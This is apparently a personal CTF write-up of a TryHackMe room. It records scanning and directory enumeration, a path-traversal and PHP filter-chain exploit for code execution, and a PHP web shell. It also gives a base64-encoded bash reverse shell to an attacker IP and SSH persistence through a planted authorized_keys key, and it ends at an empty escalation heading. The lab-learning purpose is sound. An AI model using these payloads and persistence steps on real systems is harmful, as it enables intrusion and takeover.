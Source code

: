 
[[TryHackMe]] Room

**Date**: 13/02/25
**Target IP**: 10.10.13.47

---
## **Initial Scanning**

### [[nmap]] :

- Every port seems to be open which is wild. Scanning the top 10 ports indicates to me that truly only ports 22 and 80 have anything interesting for the time being as their the only ones which return sensible data.

---
## **Exploration and Enumeration**

There's a `login.php` page. It's an Apache server. Running dirbuster gives me nothing. dirsearch however provides some interesting looking endpoints :

``` hl:24,27
Target: http://10.10.13.47/

[16:47:50] Starting: 
[16:48:06] 403 -  276B  - /.ht_wsr.txt
[16:48:06] 403 -  276B  - /.htaccess.bak1
[16:48:06] 403 -  276B  - /.htaccess.orig
[16:48:06] 403 -  276B  - /.htaccess.sample
[16:48:06] 403 -  276B  - /.htaccess.save
[16:48:06] 403 -  276B  - /.htaccess_extra
[16:48:06] 403 -  276B  - /.htaccess_orig
[16:48:06] 403 -  276B  - /.htaccess_sc
[16:48:06] 403 -  276B  - /.htaccessOLD
[16:48:06] 403 -  276B  - /.htaccessBAK
[16:48:06] 403 -  276B  - /.htaccessOLD2
[16:48:06] 403 -  276B  - /.htm
[16:48:06] 403 -  276B  - /.html
[16:48:06] 403 -  276B  - /.htpasswd_test
[16:48:06] 403 -  276B  - /.htpasswds
[16:48:06] 403 -  276B  - /.httr-oauth
[16:48:10] 403 -  276B  - /.php
[16:49:10] 301 -  311B  - /images  ->  http://10.10.13.47/images/
[16:49:10] 200 -  484B  - /images/
[16:49:17] 200 -  370B  - /login.php
[16:49:26] 200 -  254B  - /orders.html
[16:49:40] 403 -  276B  - /server-status/
[16:49:40] 403 -  276B  - /server-status
[16:49:54] 200 -  254B  - /users.html
```

But there's no content part from a header on the actual pages.

Running sqlmap on the login request actually gives me an interesting redirect to `http://10.10.13.47/secret-script.php?file=supersecretadminpanel.html`and indicates that the backend DB is MySQL however it does also say the username parameter a false positive.

The endpoint is an admin panel wit nothing of much note apart from the URL itself.

---
## **Exploitation**

The file parameter allows for path traversal allowing me to arbitrarily read files.

I had to refer to the write-up for this next part. I'm not smart enough to put this together which is annoying.

So, the admin panel URL `http://10.10.13.47/secret-script.php?file=php://filter/resource=messages.html` contains a PHP filter which apparently allows arbitrary PHP code execution and is an interesting vulnerability. LFI2RCE is what i have to look into.

I learnt that the following can help generate php filter chain exploits :
**https://github.com/synacktiv/php_filter_chain_generator

As a trial we can generate a payload to print the phpinfo :

``` ln=false
❯ python3 php_filter_chain_generator.py --chain="<?php phpinfo(); ?>"

[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-.........
```

And it worked. So we can go ahead now and try and get a reverse shell.

We go about this by uploading the simplest possible php web shell using the following:

``` ln=false
❯ python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```

We run the code as follows :

``` ln=false
http://10.10.13.47/secret-script.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8..........
```

We now have the ability to run arbitrary commands.

Using https://www.revshells.com/ we can generate a Bash -i reverse shell command. The write-up explained that base64 encoding it would help avoid any conflicts with special characters in the URL.

So, to obtain the reverse shell I finally navigate to :

``` ln=false
http://10.10.13.47/secret-script.php?0=echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ==%20|%20base64%20-d%20|%20bash&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv...................
```

Where the actual command for the shell is :

``` ln=false
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ== | base64 -d | bash
```

``` ln=false
❯ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.4.122.80] from (UNKNOWN) [10.10.13.47] 42486
bash: cannot set terminal process group (821): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cheesectf:/var/www/html$ ls
```

I really need to remember to upgrade the shell using instructions from [[Shell Upgrade]].

We have an upgraded shell as www-data.

---
## **Post-Exploitation**

Run linpeas.

Found an interesting file : `/etc/systemd/system/exploit.timer`

Also we can navigate to the comte user's home directory. Here we find their .ssh folder in which there is an `authorized_keys` file which we can write to.

I can therefore use the following to generate my own SSH key using the following on my host system, copy and echo the public key into the `authorized_keys` file and use the id key to SSH as the comte user: 

``` ln=false
❯ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:+YaZ67XYzsE1aZ23+vaMUH+qWDuBDDCkR89LOwTQWfI kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|    .+=o.        |
|     o=*         |
|    . .oE        |
|     . o.+   o . |
|        So .= + .|
|         Boo.o o.|
|        + * o. .o|
|         B =.o.=.|
|       .+.* o+=.+|
+----[SHA256]-----+
```

``` ln=false
❯ ssh -i /home/kali/.ssh/id_rsa comte@10.10.13.47
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)....

comte@cheesectf:~$ 
```

---
## **Escalation**

